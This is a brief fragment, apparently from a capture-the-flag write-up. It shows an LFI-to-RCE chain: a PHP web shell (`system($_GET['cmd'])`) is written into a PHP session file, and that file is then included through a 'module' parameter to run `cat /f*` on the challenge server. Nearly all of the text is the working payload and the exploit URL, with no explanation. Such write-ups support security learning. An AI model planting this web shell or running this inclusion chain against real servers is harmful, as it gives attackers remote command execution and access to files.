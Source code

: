 Write `<?php system($_GET['cmd']); ?>` to session
LFI to RCE: http://splitline.tw:8401/?module=/tmp/sess_7096b0f735f7f2b1e5e7f807ca25eb21&cmd=cat%20/f*
